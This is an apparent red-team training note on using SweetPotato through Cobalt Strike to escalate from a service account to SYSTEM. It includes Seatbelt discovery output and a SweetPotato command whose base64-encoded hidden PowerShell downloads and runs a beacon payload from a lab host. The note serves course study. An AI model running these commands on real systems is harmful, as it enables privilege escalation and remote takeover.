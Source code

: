 
Repo Location: https://github.com/CCob/SweetPotato

A special type of privilege called _SeImpersonatePrivilege_**,** allows the account to "impersonate a client after authentication".

This privilege allows the user to impersonate a token that it's able to get a handle to.  However, since this account is not a local admin, it can't just get a handle to a higher-privileged process (e.g. SYSTEM) already running on the machine.  A strategy that many authors have come up with is to force a SYSTEM service to authenticate to a rogue service that the attacker creates.  This rogue service is then able to impersonate the SYSTEM service whilst it's trying to authenticate.

#### 🖊️ via Cobalt Strike

###### Discovery

1) In your beacon shell run the tool [[Seatbelt]]:

```
beacon> getuid
[*] You are NT Service\MSSQLSERVER

beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe TokenPrivileges

====== TokenPrivileges ======

Current Token's Privileges

                SeAssignPrimaryTokenPrivilege:  DISABLED
                     SeIncreaseQuotaPrivilege:  DISABLED
                      SeChangeNotifyPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                       SeImpersonatePrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                      SeCreateGlobalPrivilege:  SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
                SeIncreaseWorkingSetPrivilege:  DISABLED

[*] Completed collection in 0.037 seconds
```

2) If you identify the SE_IMPERSONATE_PRIVILEGE enabled, run the sweet potato:

```
beacon> execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGMAJwApAA=="
```

In this example I'm running sweetpotato with a parameter "-p" which is program to launch which is powershell that will fetch and run a beacon payload. 

3) If you are running a peer-to-peer listener/payload then just connect to it 
`beacon> connect localhost 4444`



#### ⚠ Opsec



### Properties
---
📆 created   {{21-02-2024}} 21:58
🏷️ tags: #redteam #crto 

---

